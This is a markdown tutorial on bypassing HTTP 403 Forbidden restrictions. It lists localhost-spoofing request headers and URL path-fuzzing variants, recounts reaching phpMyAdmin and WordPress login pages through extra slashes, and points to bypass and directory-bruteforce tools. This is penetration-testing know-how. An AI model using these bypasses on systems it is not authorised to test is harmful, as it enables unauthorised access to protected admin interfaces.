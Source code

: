 # Bypass 403 - Forbidden :no_entry:

- **Introduction**

Depending on the configuration made by the infrastructure analyst, there are some ways to get past the 403-forbidden error generally by configuring when you should not be allowed to access certain resources of that directory or file.

I created this quick document to demonstrate some techniques for this, including, I already used it and managed to pass the **403 error** and access database administrative login pages.

<p align="center">
  <img width="600" height="300" src="./img/1.png">
</p>


## Some techniques :page_facing_up:


 #### <span style="color:red">Attention</span> :bangbang:

Before using the techniques below, it is worth changing the HTTP methods for each attempt, such as GET, POST, PATCH, OPTIONS, TRACE...

1. Method ***HTTP Headers Fuzzing***

In some cases, access to pages and private files can be done by changing the ***Header*** of the request and including an internal address, here are some examples;

- X-ProxyUser-Ip: 127.0.0.1
- Client-IP: 127.0.0.1
- Host: localhost
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Real-IP: 127.0.0.1

2. Method ***Path Fuzzing***

We can try to make some changes to the url, using special characters or including HTML encoding, exemples;

- test.com/admin/*
- test.com/*admin/
- test.com/%2fadmin/
- test.com%2fadmin%2f
- test.com/./admin/
- test.com//admin/./
- test.com///admin///
- test.com//admin//
- test.com/ADMIN/
- test.com/;/admin/
- test.com//;//admin/

## Real example 1 of Bypass

The example below is a bypass used in the phpmyadmin console, configured to be accessed only with specific IP x.x.x.x the context /phpmyadmin/

I made some attempts changing the context, example;

- /phpmyadmin/*
- /./phpmyadmin/
- //phpmyadmin//
- /*/phpmyadmin/

<p align="center">
  <img width="600" height="250" src="./img/403.JPG">
</p>

However, without success :(

After a few attempts to pass the 403, I tried changing the context to;

- **<span style="color:red;">///phpmyadmin///</span>**

<p align="center">
  <img width="600" height="250" src="./img/bypass.JPG">
</p>

In this case using 3 slashes (///), we managed to pass the 403 error and access the phpmyadmin login page. :ok_hand:

## Real example 2 of Bypass

In this example, we access the wordpress login panel using, in this case, 2 slashes (//).

In this url, we couldn't use the same context with 3 slashes, however, we managed using another change in the context.

<p align="center">
  <img width="600" height="250" src="./img/403-wp.JPG">
</p>

Using the context below
- **<span style="color:red;">//wp-admin//</span>**

<p align="center">
  <img width="600" height="400" src="./img/bypass-wp.JPG">
</p>
<br>

## Tool Tip :white_check_mark:

Some developers who created some tools to facilitate the identification of possible pages that we managed to pass the 403 error. The github project below (***iamj0ker***) was tested and we were able to validate some prohibited entries.

[github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)

For those who use **Burpsuite Professional**, there is a plugin in the store to validate contexts with denied permissions, called **403 Bypasser**.

[403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

To find possible directories with 403 permissions, we can perform a bruteforce of directories and files using **Dirsearch**.

[Dirsearch](https://github.com/maurosoria/dirsearch)


<a href="https://asciinema.org/a/380112" target="_blank"><img src="https://asciinema.org/a/380112.svg" /></a>
